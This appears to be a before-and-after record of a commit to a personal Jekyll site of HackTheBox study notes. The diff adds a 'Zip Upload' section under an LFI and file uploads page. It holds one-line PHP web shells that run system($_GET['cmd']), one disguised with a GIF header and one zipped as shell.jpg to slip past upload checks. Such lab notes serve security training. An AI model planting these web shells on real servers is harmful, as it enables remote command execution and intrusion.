

Before and after one commit to HenryEarl/HenryEarl.github.io, a Jekyll site: the page built from docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/LFI_and_File_Uploads.md, in a window 1280 px wide. Shown: the top 492 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update LFI_and_File_Uploads.md

````diff
--- a/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/LFI_and_File_Uploads.md
+++ b/docs/HowToDocs/HackTheBox/Exploitation/File_Inclusion/LFI_and_File_Uploads.md
@@ -7,3 +7,9 @@ title: LFI and File Uploads
 ```
 Jerad Rodgers@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
 ```
+
+## Zip Upload
+
+```
+Jerad Rodgers@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
+```
````
